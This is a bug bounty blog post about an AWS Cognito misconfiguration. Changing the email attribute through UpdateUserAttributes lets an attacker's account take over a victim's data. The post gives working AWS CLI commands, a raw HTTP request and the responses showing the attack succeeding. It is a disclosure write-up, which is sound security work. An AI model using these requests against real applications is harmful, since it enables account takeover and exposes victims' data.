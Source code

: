 ```yaml
---
layout: post
title:  "AWS Cognito Misconfiguration"
date:   2022-11-04
categories: bugbounty
---
```


Hello everyone, hope you are all good and having some fun. After a long time I came up with an other interesting blog where I discuss about an interesting AWS Cognito misconfiguration allowing attacker to merge victim's account with the attacker account on behalf of the victim. This was found on one of the engagements at Synack Red Team.

For those who doesn't know about AWS Cognito. 

### Amazon Cognito

Amazon Cognito provides authentication, authorization, and user management for customer's web and mobile applications. Users can sign in directly with a user name and password, or through a third party such as Facebook, Amazon, Google, Apple, or enterprise identity providers via SAML 2.0 and OpenID Connect. The two main components of Amazon Cognito are user pools and identity pools. User pools are user directories that provide sign-up and sign-in options for application users. Identity pools enable developers to grant users access to other AWS services

**References:**
* [https://aws.amazon.com/cognito/](https://aws.amazon.com/cognito/)
* [https://www.techtarget.com/searchaws/definition/Amazon-Cognito](https://www.techtarget.com/searchaws/definition/Amazon-Cognito)

<p align="center">
<img src="https://docs.aws.amazon.com/images/cognito/latest/developerguide/images/cognito-user-pool-auth-flow-srp.png">
</p>

The Target application was using AWS Cognito for authentication purpose. Upon Login to the application certain requests were being made to AWS Cognito to validate the user. Once the validation check was passed you will be allowed to login to the application

The flow will be as follows

User login -> AWS Cognito (Authentication) -> AWS Cognito (Get User Attributes) -> Application Login

The request for `Get User Attribute` will have a header named `X-Amz-Target: AWSCognitoIdentityProviderService.GetUser` and the response for the request will be as follows

**Request:**
```
POST / HTTP/2
Host: cognito-idp.us-west-2.amazonaws.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-amz-json-1.1
X-Amz-Target: AWSCognitoIdentityProviderService.GetUser
X-Amz-User-Agent: aws-amplify/5.0.4 js
Content-Length: 1072
Origin: https://<REDACTED>
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: cross-site

{"AccessToken":"<Token>"}
```

**Response:**
```
{
    "Username": "attacker@attacker.com",
    "UserAttributes": [
        {
            "Name": "sub",
            "Value": "<UUID>"
        },
        {
            "Name": "email_verified",
            "Value": "false"
        },
        {
            "Name": "email",
            "Value": "attacker@attacker.com"
        }
    ]
}
``` 

The above response gives us the list of `user attributes` available. Among those three attributes the `email` attribute is interesting. If we can able to change our email address to victim's email address then we were able to login to the victim account with our attacker's password right? So with this mindset I started the exploitation process by making a request to `Update UserAttributes`. The Update User attribute request can be done by using `AWS CLI` or using a `HTTP Request`. Both examples have been given below

### Method 1 (Using AWS CLI)

**AWS CLI**
```
aws cognito-idp update-user-attributes --region us-west-2 --access-token <Token> --user-attributes 'Name=email,Value=**victim@victim.com**'
```

Run the above command to update the email address to victim's email address. After running the command the update operation was successfull. If you get an error like this `An error occured (AliasExistsException) when calling the ` `UpdateUserAttributes operation: An account with the given email address already exists` it means the application was not vulnerable. 
 
Upon making a request to retrieve the updated `user attributes` using aws-cli with the below given command the response was as follows.

**AWS CLI**
```
aws cognito-idp get-user --region us-west-2 --access-token <Token>
```

**Response:**
```
{
    "Username": "attacker@attacker.com",
    "UserAttributes": [
        {
            "Name": "sub",
            "Value": "<UUID>"
        },
        {
            "Name": "email_verified",
            "Value": "false"
        },
        {
            "Name": "email",
            "Value": "victim@victim.com"
        }
    ]
}
``` 

### Method 2 (Using RAW HTTP Request)

**Request:**
```
POST / HTTP/2
Host: cognito-idp.us-west-2.amazonaws.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-amz-json-1.1
X-Amz-Target: AWSCognitoIdentityProviderService.UpdateUserAttributes
X-Amz-User-Agent: aws-amplify/5.0.4 js
Content-Length: 1072
Origin: https://<REDACTED>
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: cross-site

{
   "AccessToken": "string",  
   "UserAttributes": [
        {   
            "Name": "sub",
            "Value": "<UUID>"
        },
        {   
            "Name": "email_verified",
            "Value": "false"
        },
        {   
            "Name": "email",
            "Value": "victim@victim.com"
        }
    ]
}
```

**Response:**
```
{   
    "Username": "attacker@attacker.com",
    "UserAttributes": [
        {   
            "Name": "sub",
            "Value": "<UUID>"
        },
        {   
            "Name": "email_verified",
            "Value": "false"
        },
        {   
            "Name": "email",
            "Value": "victim@victim.com"
        }
    ]
}
```

Now as per the mindset discussed above I have tried to login to the application with the below given credentials.

```
Email: victim@victim.com
Password: attacker'spassword
```

The login was failed. From the above given response i noticed the `username` still remains the same as `attacker@attacker.com` only the email attribute has been changed. So I tried to login to the application with the attacker's credentials such as

```
Email: attacker@attacker.com
Password: attacker'spassword
```

Login was successfull and all the data belonging to `victim@victim.com` was successfully merged over to `attacker's account`. Changes being done by `attacker` was being reflected to `victim's` account. Victim can still login to the application using his credentials as well.


